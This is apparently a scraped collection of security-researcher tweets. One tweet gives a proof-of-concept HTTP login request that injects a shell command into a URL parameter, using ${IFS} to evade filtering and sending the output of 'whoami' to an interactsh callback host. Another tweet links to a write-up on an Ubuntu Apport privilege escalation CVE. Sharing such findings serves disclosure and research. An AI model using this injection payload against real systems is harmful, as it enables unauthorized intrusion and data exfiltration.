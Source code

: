 POC: 
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}`whoami`.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded

username=root&amp;password=toor&amp;commit=Login https://t.co/TkSmCutTqv
</blockquote>

<table><tr>
<td><img src="pictures/040005967cecd321492f5b25e799324a23b26156e12d1e6265adad2c5b2d5732.jpg" alt="040005967cecd321492f5b25e799324a23b26156e12d1e6265adad2c5b2d5732.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>470</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1611807395130253315 _at 2023-01-07, 19:30:03_**
<blockquote>
Cool writeup by @Gr33nh4t on using Apport crash handler for privilege escalation in Ubuntu (CVE-2021-25682)
